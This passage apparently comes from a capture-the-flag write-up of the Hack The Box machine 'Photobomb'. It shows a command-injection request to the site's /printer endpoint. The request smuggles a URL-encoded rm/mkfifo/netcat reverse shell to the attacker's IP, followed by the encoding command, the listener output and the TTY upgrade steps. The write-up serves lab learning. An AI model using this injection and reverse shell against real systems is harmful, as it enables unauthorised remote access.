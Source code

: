 The only one that worked for me was the `rm mkfifo` from [revshells](https://www.revshells.com/), the request looks like this


```
POST /printer HTTP/1.1

Host: photobomb.htb

Content-Length: 201

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Authorization: Basic cEgwdDA6YjBNYiE=

Origin: http://photobomb.htb

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://photobomb.htb/printer

Accept-Encoding: gzip, deflate

Accept-Language: es,en-US;q=0.9,en;q=0.8

Connection: close



photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.14.16%207777%20%3E%2Ftmp%2Ff%0A&dimensions=3000x2000
```

By the way, this is the command I used to encode the reverse shell

```shell
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.16 7777 >/tmp/f" | jq -sRr @uri
```

Once connected to the machine I did the tty treatment as usual

```shell
nc -lvp 7777
Connection from 10.10.11.182:42972
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
wizard@photobomb:~/photobomb$ ^Z
zsh: suspended  nc -lvp 7777
[dasor@archlinux ~]$ stty raw -echo;fg
[1]  + continued  nc -lvp 7777
                              script /dev/null -c bash
Script started, file is /dev/null
wizard@photobomb:~/photobomb$ export TERM=xterm
wizard@photobomb:~/photobomb$ stty rows 30 columns 132
```
